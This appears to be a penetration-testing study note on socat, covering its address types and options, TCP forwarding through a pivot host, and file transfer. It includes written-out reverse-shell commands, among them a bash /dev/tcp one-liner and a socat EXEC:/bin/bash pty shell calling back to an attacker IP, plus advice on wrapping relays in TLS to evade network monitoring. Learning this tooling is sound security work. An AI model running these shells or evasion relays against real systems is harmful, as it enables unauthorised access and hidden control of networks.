

>[!abstract]+ **Scope**: `socat`; address types and options; using `socat` for: TCP forwarding, catching a reverse shell through a pivot, relaying a bind shell out through a pivot, building a fully interactive TTY shell, wrapping a relay in TLS.
## `socat`

>**[`socat`](http://www.dest-unreach.org/socat/doc/socat.html) (Socket Cat)** is a multipurpose command-line tool for **bidirectional data transfer** between **two independent data channels**.

- `socat` establishes two independent, bidirectional byte streams and transfers data between them. Whatever arrives at one stream gets written to the other, and vice versa, until either side closes the connection.
- `socat` can relay almost *anything* to *anything*, including:
	- TCP sockets
	- UDP sockets
	- Unix domain sockets
	- IP raw sockets
	- Serial ports
	- Pseudo terminals
	- File descriptors
	- Pipes

- This comes useful for pivoting, when you get a foothold on a host that can reach a target you can't reach directly. You drop `socat` on the pivot and use it to bridge traffic from your host across the network boundary and back.

## Using `socat`

- Command syntax:

```bash
socat [options] <address_1> <address_2>
```

- Each `<address>` specifies an endpoing: a protocol type followed by its parameters and comma-separated options. 
- `socat` creates both endpoints and copies bytes between them in both directions.

| Address type                      | Description                                                                                                                          |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| `TCP`, `TCP4`, `TCP6`             | TCP client connection (dual-stack, IPv4-only, IPv6-only).                                                                            |
| `UDP`                             | UDP client connection.                                                                                                               |
| `TCP-LISTEN`                      | Listens on a local TCP port for an incoming connection.                                                                              |
| `UDP-LISTEN`                      | Listens on a local UDP port.                                                                                                         |
| `OPENSSL`                         | TLS client connection.                                                                                                               |
| `OPENSSL-LISTEN`                  | Listens on a TCP port and acts as a TLS server.                                                                                      |
| `EXEC`                            | Runs a command and connects its `stdin`/`stdout` to the data stream (used for shells).                                               |
| `STDIO`                           | Uses the current terminal's `stdin`/`stdout` as the endpoint.                                                                        |
| `PIPE`                            | Connects to a named pipe (FIFO, First-In First-Out).                                                                                 |
| `TUN`                             | Creates a TUN/TAP virtual network interface.                                                                                         |
| `SOCKS4`, `SOCKS4A`               | Connects through a **SOCKS4/4A proxy as a client**.                                                                                  |
| `SOCKS5-CONNECT`, `SOCKS5-LISTEN` | Connects through a **SOCKS5 proxy client**; `SOCKS5-LISTEN` is also client-side — it asks the SOCKS5 server to listen on its behalf. |

- Common per-address options (specified comma-separated, after the address type):

| Option          | Description                                                                                                                                                                                                                                                               |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `fork`          | Spawns a child process for each new connection instead of exiting after the first one. <br>Required for any listener that should serve more than one client.                                                                                                              |
| `reuseaddr`     | Allows the listener rebind a port still in `TIME_WAIT`.<br>Without this option, attempting to restart a socat listener on the same port will fail with an `Address already in use` error until the OS clears the time-out; `reuseaddr` allows you to restart immediately. |
| `pty`           | Allocates a pseudo-terminal for the endpoint (needed for a fully interactive shell).                                                                                                                                                                                      |
| `stderr`        | Redirects the child process's `stderr` into the relay stream too (error messages reach the remote session instead of only appearing on the pivot's local console).                                                                                                        |
| `setsid`        | Runs the process in a new session, detached from the controlling terminal.                                                                                                                                                                                                |
| `sigint`        | Passes `SIGINT` (`Ctrl+C`) through to the relayed process instead of killing the `socat` process itself.                                                                                                                                                                  |
| `sane`          | Restores sane terminal settings after `pty` allocation.                                                                                                                                                                                                                   |
| `crlf`          | Translates line endings between LF and CRLF.                                                                                                                                                                                                                              |
| `cert=`, `key=` | Path to a TLS certificate and private key — commonly set on `OPENSSL-LISTEN`, but also valid on the `OPENSSL` client address when client-certificate authentication is required.                                                                                          |
| `verify=`       | Whether to verify the peer's TLS certificate (`0` disables verification).                                                                                                                                                                                                 |

### TCP port forwarding



- TCP port forwarding through a pivot (run on the pivot host):

```bash
socat TCP-LISTEN:8080,fork,reuseaddr TCP:172.16.5.19:80
```

- Whenever you connect to the listener on the pivot (e.g., `10.10.11.5:8080`), the traffic is redirected to `172.15.5.19:80`.
- For example, `curl` to the listener ends up talking directly to the forwarded port (`172.16.5.19:80`), as if the internal web server were hosted directly on the pivot.

```bash
curl -I http://10.10.11.5:8080/
```

- The same pattern applies for other TCP services — replace the port and target accordingly.

```bash
socat TCP-LISTEN:3307,fork,reuseaddr TCP:172.16.5.19:3306
```

```bash
mysql -h 10.10.11.5 -P 3307 -u root -p
```
### Relaying a reverse shell through a pivot


1. On your attacker machine, start a listener:

```bash
nc -lvnp 4444
```

2. On the pivot host, use `socat` to start another listener that relays any connections to the listener on your machine:

```bash
socat TCP-LISTEN:8080,fork,reuseaddr TCP:10.10.11.11:4444
```

3. On the internal target, trigger a reverse shell pointed at the pivot's internal IP address and the forwarding port:

```bash
bash -i >& /dev/tcp/172.16.5.5/8080 0>&1
```

- The internal host connects to the pivot, and the pivot forwards that connection to your listener — you end up with a shell.

### Relaying a bind shell through a pivot


1. Start a bind shell listener on the internal target, such as at `172.16.5.18:4444`.
2. On the pivot host, forward a local port to the bind listener port on the target:

```bash
socat TCP-LISTEN:8080,fork,reuseaddr TCP:172.16.5.19:4444
```

3. From your attacking machine, connect to the forwarding port on the pivot:

```bash
nc 10.10.11.5 8080
```

### Fully interactive TTY reverse shell

- The `pty` option, combined with `stderr`, `setsid`, `sigint`, and `sane`, gives you a fully interactive shell — with job control, signal handling, error redirection, and sane terminal settings.

1. On your attacking machine, start the listener:

```bash
socat TCP-LISTEN:4444,fork,reuseaddr -
```

2. On the target (or using pivot redirection as described above), connect back to your listener and hand off a `pty`-backed shell:

```bash
socat TCP:10.10.11.11:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

- `EXEC:/bin/bash` runs `/bin/bash` and pipes its `stdin` and `stdout` through the `pty` into the network connection, so you get a proper prompt with tab completion and friends, instead of a raw, fragile pipe.

### Wrapping a relay in TLS

- Cleartext connections can be inspected by any network monitoring tools sitting between the pivot and your attacking machine. Wrapping the relay in TLS hides your traffic, which, in many cases, prevents detection (and doesn't take much hastle).

1. On your attacking machine, generate a self-signed certificate and private key; then combine them into a single PEM file:

```bash
openssl req -x509 -newkey rsa:2048 -days 365 -nodes -out cert.pem -keyout key.pem
```

```bash
cat cert.pem key.pem > server.pem
```

2. On your attacking machine, start a TLS listener; specify the generated certificate in the `cert` option:

```bash
socat OPENSSL-LISTEN:443,cert=server.pem,verify=0,fork,reuseaddr TCP:127.0.0.1:4444
```

3. On the pivot host, forward internal traffic to your attacking machine over the encrypted link:

```bash
socat TCP-LISTEN:8080,fork,reuseaddr OPENSSL:10.10.11.11:443,verify=0
```

>[!important] `verify=0` disables certificate validation on the client side; this is necessary since you're using self-signed certificates.

### File transfers

1. On the machine from which you want to transfer a file (e.g., your attacking machine), start a listener:

```bash
socat TCP4-LISTEN:443,fork file:example.txt
```

2. On the machine to which your want to transfer the file (e.g., target host or pivot), relay the file using `socat`:

```bash
socat TCP4:10.10.11.11:443 file:example.txt,create
```
## Option reference

- Global `socat` flags:

| Option                       | Description                                                                                          |
| ---------------------------- | ---------------------------------------------------------------------------------------------------- |
| `-V`                         | Print version and compiled-in feature information, then exit.                                        |
| `-h`, `-?`                   | Print command-line options and address types.                                                        |
| `-d`, `-dd`, `-ddd`, `-dddd` | Increase log verbosity one level per `-d` (warning → notice → info → debug).                         |
| `-d0`                        | Print only fatal and error messages — restores the pre-1.7.4 default verbosity.                      |
| `-D`                         | Log information about the file descriptors before starting the transfer phase.                       |
| `-u`                         | Unidirectional mode, `<address1>` → `<address2>` only.                                               |
| `-U`                         | Unidirectional mode in reverse, `<address2>` → `<address1>` only.                                    |
| `-b <size>`                  | Set the data transfer block size (bytes per step; default 8192).                                     |
| `-t <timeout>`               | Seconds to wait before closing the second channel after one channel reaches EOF.                     |
| `-T <timeout>`               | Total inactivity timeout — terminate after `<timeout>` seconds with no data transferred in the loop. |
| `-lf <file>`                 | Write log output to a file instead of stderr.                                                        |
| `-ly`                        | Send log output to syslog.                                                                           |

- Address options used in the procedures above:

| Option        | Description                                                                                                                                                                                  |
| ------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `fork`        | Spawn a child process per connection; required for a listener to serve multiple clients.                                                                                                     |
| `reuseaddr`   | Allow rebinding a port still in `TIME_WAIT`.                                                                                                                                                 |
| `pty`         | Allocate a pseudo-terminal for the endpoint.                                                                                                                                                 |
| `stderr`      | Include the relayed process's stderr in the data stream.                                                                                                                                     |
| `setsid`      | Detach into a new session.                                                                                                                                                                   |
| `sigint`      | Pass `SIGINT` through to the relayed process.                                                                                                                                                |
| `sane`        | Restore sane terminal settings after `pty` allocation.                                                                                                                                       |
| `crlf`        | Translate line endings between LF and CRLF.                                                                                                                                                  |
| `cert=<file>` | TLS certificate (and, combined with the key, usually a single PEM) — commonly set on `OPENSSL-LISTEN`, but also valid on the `OPENSSL` client address for client-certificate authentication. |
| `key=<file>`  | TLS private key, when not bundled into `cert=`.                                                                                                                                              |
| `verify=0\|1` | Disable or enable TLS peer certificate verification.                                                                                                                                         |

>[!note] See [`socat`](http://www.dest-unreach.org/socat/doc/socat.html) for a comprehensive reference.
## References and further reading

- [`socat — www.dest-unreach.org`](http://www.dest-unreach.org/socat/doc/socat.html)
- [`Socat for Pentester — Hacking Articles`](https://www.hackingarticles.in/socat-for-pentester/)
- [`Using sockat to bridge interfaces — Marcus Folkesson`](https://www.marcusfolkesson.se/blog/using-socat-to-bridge-interfaces/)
- [`Reverse Shell Cheat Sheet, Socat — Internal All The Things`](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#socat)
- [`Bind Shell Cheat Sheet, Socat — Internal All The Things`](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#socat)
